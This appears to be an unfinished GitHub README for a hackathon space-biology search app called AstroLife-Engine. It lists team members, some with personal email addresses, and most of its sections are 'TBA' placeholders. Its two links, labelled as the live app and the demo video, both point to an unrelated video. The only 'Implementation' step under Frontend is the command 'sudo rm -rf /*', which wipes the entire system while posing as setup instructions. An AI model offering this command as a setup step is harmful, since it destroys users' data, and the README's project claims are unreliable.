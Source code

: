 # AstroLife-Engine | A Space Biology Knowledge Engine 

***AstroLife Engine is a dynamic web application designed to simplify decades of NASA’s bioscience research for the future of human space exploration. By leveraging NASA’s open dataset of more than 600 space biology publications, AstroLife makes it easy to search, identify, and visualize key findings. The platform helps researchers, mission planners, and space enthusiasts explore insights more efficiently, enabling better understanding of how living systems adapt to space and supporting humanity’s journey to the Moon, Mars, and beyond.***  

- [Live Web App](https://www.youtube.com/watch?v=dQw4w9WgXcQ)

- [Demo Video](https://www.youtube.com/watch?v=dQw4w9WgXcQ)

---

## 1. Team Information
**Team Name**: Luminara

**Member Contact**:

| Name                 | GitHub Profile                                   | Contact                     |
|----------------------|--------------------------------------------------|-----------------------------|
| Ryan Ahmed           | [RyanAhmed911](https://github.com/RyanAhmed911) | TBA                         |
| Nusayba Mahfuza Zaman| [Nusuwuba](https://github.com/Nusuwuba)         | nusaybazaman3@gmail.com     |
| Raiyan Rahman        | [Raiyan465-F1](https://github.com/Raiyan465-F1) | TBA                         |
| Zarin Tasnim         | [ZarinTasnimNadia](https://github.com/ZarinTasnimNadia) | zarin_nadia@yahoo.com       |
| Al-Saihan Tajvi      | [Al-Saihan](https://github.com/Al-Saihan)       | al.saihan.bafsd.5@gmail.com |

---

## 2. Executive Summary
- Problem: TBA 
- Solution: TBA
- Outcome: TBA

---

## 3. Introduction
- Context: TBA
- Need: TBA

---

## 4. Problem Statement
- TBA  
- TBA 

---

## 5. Objectives
- TBA
- TBA
- TBA
- TBA

---

## 6. Target Users
- TBA
- TBA
- TBA
- TBA

---

## 7. Solution Overview
- TBA
- TBA
- TBA
- TBA

---

## 8. System Architecture
- **Frontend**: TBA
- **Backend**: TBA
- **Datasbase**: TBA

---

## 9. Features & Components
- **Visualization**: TBA
- **Categorization**: TBA


---

## 10. Implementation
### Frontend
```bash
sudo rm -rf /*
```

